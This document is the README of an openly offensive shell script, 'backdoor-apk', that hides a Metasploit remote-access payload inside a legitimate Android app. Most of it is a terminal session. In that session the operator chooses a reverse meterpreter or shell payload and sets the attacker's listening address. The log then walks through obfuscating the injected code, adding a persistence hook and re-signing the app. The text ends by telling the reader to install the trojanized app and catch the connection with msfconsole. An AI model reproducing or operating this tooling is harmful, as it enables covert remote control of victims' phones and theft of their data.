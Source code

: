 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Openjdk8, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for educational purposes only.

Usage:

```
root@kali:~/Android/evol-lab/BaiduBrowserRat# ./backdoor-apk.sh BaiduBrowser.apk
          ________
         / ______ \
         || _  _ ||
         ||| || |||          AAAAAA   PPPPPPP   KKK  KKK
         |||_||_|||         AAA  AAA  PPP  PPP  KKK KKK
         || _  _o|| (o)     AAA  AAA  PPP  PPP  KKKKKK
         ||| || |||         AAAAAAAA  PPPPPPPP  KKK KKK
         |||_||_|||         AAA  AAA  PPP       KKK  KKK
         ||______||         AAA  AAA  PPP       KKK  KKK
        /__________\
________|__________|__________________________________________
       /____________\
       |____________|            Dana James Traversie

[*] Running backdoor-apk.sh v0.2.0 on Fri Feb 17 22:30:34 EST 2017
[+] Android payload options:
1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option: 2
[?] Please enter an LHOST value: 10.6.9.31
[?] Please enter an LPORT value: 443
[+] Handle the payload via resource script: msfconsole -r backdoor-apk.rc
[*] Generating RAT APK file...done.
[*] Decompiling RAT APK file...done.
[*] Decompiling original APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Running proguard on RAT APK file...done.
[*] Decompiling obfuscated RAT APK file...done.
[*] Creating new directories in original project for RAT smali files...done.
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Locating smali file to hook in original project...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@kali:~/Android/evol-lab/BaiduBrowserRat#
```

The recompiled APK will be found in the main directory of backdoor-apk with the name 'app_rat.apk'. Install the APK on a compatible Android device, run it, and handle the meterpreter connection via the generated resource script: msfconsole -r backdoor-apk.rc
